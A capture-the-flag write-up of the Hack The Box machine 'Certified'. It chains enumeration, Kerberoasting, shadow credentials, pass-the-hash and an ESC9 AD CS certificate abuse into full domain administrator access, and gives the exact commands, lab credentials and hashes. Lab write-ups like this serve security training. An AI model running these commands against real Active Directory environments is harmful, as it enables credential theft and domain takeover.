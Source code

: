 ![Certified](https://labs.hackthebox.com/storage/avatars/28b71ec11bb839b5b58bdfc555006816.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [ruycr4ft](https://app.hackthebox.com/users/1253217)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---







- I start with a scan of the open ports and I continue with a scan of the versions and technologies that are running on the open ports that we have found
	
	```python
	nmap -p- --open --min-rate 5000 -Pn -sS 10.10.11.41 -oG scan
	nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49666,49668,49673,49674,49683,49713,49737,49770 -sCV -Pn 10.10.11.41 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/8d123dcc-0bf9-45c7-bd74-8f735a1b25e7)

- I have access via smb to the IPC$ folder and thanks to that I am able to enumerate the system
	
	```python
	netexec smb 10.10.11.41 -u judith.mader -p judith09 --shares
	```
	
	![image](https://github.com/user-attachments/assets/5d6103f5-c05a-4a54-bce8-922e14759b0c)
	
	```python
	netexec ldap 10.10.11.41 -u judith.mader -p judith09  --bloodhound --collection All --dns-server 10.10.11.41
	```
	
	![image](https://github.com/user-attachments/assets/1c8ff1e7-fdf8-4a9c-9b80-d83a37999f43)

- Before analyzing with bloodhound, I see on which user I can request a TGS as I have valid credentials.
	
	![image](https://github.com/user-attachments/assets/bb181db5-abfe-49f1-bc41-59e086f1b611)
	
	```python
	rdate -n 10.10.11.41; impacket-GetUserSPNs certified.htb/judith.mader:judith09 -request
	```
	
  ![image](https://github.com/user-attachments/assets/085eab0b-66a0-4157-aa2b-b402fda53518)

- I can request it from the management_SVC user and sometimes I can break it and get his password. After completing the whole machine I understand why I can sometimes break the TGS and sometimes not. As this is not the intended way to complete the machine I am not going to follow up on this point

- Analyzing with bloodhound I see that I have “WriteOwner” permission on the management group and then it has “GenericWrite” permission on the management_svc user.
- Thanks to the first one I can change the owner of the object and with the second one I can change the user's password without knowing the current one.
	
	![image](https://github.com/user-attachments/assets/103cdac0-6619-4abc-971d-3a7fce639653)

- I start by adding the user judith.mader to the management group with owneredit from impacket
	
	```python
	owneredit.py -action write -new-owner 'judith.mader' -target-dn 'CN=management,CN=Users,DC=certified,DC=htb' 'certified.htb'/'judith.mader':'judith09' -dc-ip 10.10.11.41
	```
	
	![image](https://github.com/user-attachments/assets/fe7f5f40-3204-4942-8245-21daa2dcae99)

- With this I get the user's ticket but I am not able to get his password in clear text.
	
	```python
	rdate -n 10.10.11.41; ./targetedKerberoast.py --dc-ip '10.10.11.41' -v -d 'certified.htb' -u 'judith.mader' -p 'judith09'
	```

- By observing that judith has “Owns” and “WriteOwner” permissions on the group managements, and this group has “GenericWrite” permission on the user Management_svc. We can first become a member of the group and get the user's hash. This is known as Kerberos PKINIT.
	
	```python
	pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"  --filename test1
	#request a Ticket-Granting-Ticket (TGT) for the domain controller
	./gettgtpkini.py -cert-pfx test1.pfx -pfx-pass  4l99njREI8ehV7aLoA7a certified.htb/Management_svc Management_svc.ccache
	#set the KRB5CCNAME environment variable,
	export KRB5CCNAME=Management_svc.ccache
	#Using the tool `getnthash.py` from PKINITtools we could request the NT hash for our target host/user by using Kerberos U2U to submit a TGS request with the [Privileged Attribute Certificate (PAC)]which contains the NT hash for the target. This can be decrypted with the AS-REP encryption key we obtained when requesting the TGT earlier.
	rdate -n 10.10.11.41; ./getnthash.py -key d85b3ba5fcb9c40d666dd6c4d7413c9273276f039ea2342d32dff2723ad291a1 certified.htb/Management_svc
	```

	![image](https://github.com/user-attachments/assets/68b9d489-cd19-43e4-9fe5-069a401b7445)

- Having already the hash of the user management_svc, I comment myself on WinRM and I manage to read the first flag.

  ```python
  evil-winrm -i 10.10.11.41 -u Management_svc -H a091XXXXXXXXXXXXXXXXXX584
  ```
  
  ![image](https://github.com/user-attachments/assets/c578fb13-5f77-4fd6-83ec-8563ff0b6f27)

- Having the credentials of this user, we can move laterally to the ca_operatos user by changing its password.
- By having “GenerilcAll” permission on the user ca_operator, I can set the user's password without knowing the current password.
	
	![image](https://github.com/user-attachments/assets/86c77825-2995-4179-a06a-cd6015b7b0bd)
	
	```python
	pth-net rpc password "ca_operator" "newP@ssword2022" -U certified.htb/management_svc%"a091c1832bcdd4677c28b5a6a1295584":"a091c1832bcdd4677c28b5a6a1295584" -S dc01.certified.htb
	
	crackmapexec smb 10.10.11.41 -u 'ca_operator' -p 'newP@ssword2022'
	```
	
	![image](https://github.com/user-attachments/assets/f6a98474-e227-408b-8c0d-dc51314a4902)

- With these credentials we enumerate the system in order to add the certificate part to bloodhound.
		
	```python
	rdate -n 10.10.11.41; certipy-ad req -u ca_operator@certified.htb -p newP@ssword2022 -dc-ip 10.10.11.41  -ca certified-DC01-CA -target certified.htb -template User
	crackpkcs12 -d /usr/share/wordlists/rockyou.txt ca_operator.pfx -t 25
	
	#Downlaod the fork version of bloodhound
	rdate -n 10.10.11.41; certipy-ad find -u ca_operator@certified.htb -p newP@ssword2022 -dc-ip 10.10.11.41 -old-bloodhound
	```

- With the certipy tool I search for any vulnerability in the certificate. It tells me that it may be vulnerable to ESC9 
- With the “find” option you can list AD CS certificate templates, certificate authorities and other settings
	
	```python
	certipy-ad find -u ca_operator -p 'newP@ssword2022' -dc-ip 10.10.11.41 -stdout -enabled -vulnerable
	```
	
	![image](https://github.com/user-attachments/assets/c195d5d0-9d81-424c-a234-ac6432afc12f)

- To exploit this vulnerability I get help from this [page](https://adminions.ca/books/adcs-abusing-active-directory-certificate-service/page/esc9) that tells me the steps to execute.

	```python
	rdate -n 10.10.11.41; certipy-ad shadow auto -username "management_svc@certified.htb" -hashes "a091c1832bcdd4677c28b5a6a1295584" -account ca_operator
	
	certipy-ad account update -username "management_svc@certified.htb" -hashes "a091c1832bcdd4677c28b5a6a1295584" -user ca_operator -upn administrator
	
	
	certipy-ad req -username "ca_operator@certified.htb" -hashes "01794af19fd00af4f2528923c4ef08be" -target "certified.htb" -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'    
	
	certipy-ad account update -username "management_svc@certified.htb" -hashes "a091c1832bcdd4677c28b5a6a1295584" -user ca_operator -upn "ca_operator@certified.htb" 
	
	
	rdate -n 10.10.11.41; certipy-ad auth -pfx  ca_operator.pfx -domain certified.htb
	```
	
	![image](https://github.com/user-attachments/assets/c856df00-a05f-4b7d-95d5-b586bf2b1e65)

	![image](https://github.com/user-attachments/assets/7774205b-0468-4bb0-9aca-b1d54bd61dd5)

- After validating and confirming that the ntlm hash is correct for the administrator user, I connect to the system and get to read the second flag
	
	```python
	 evil-winrm -i 10.10.11.41 -u administrator -H "0d5bXXXXXXXXXXXXXXXXXX2d34"
	```
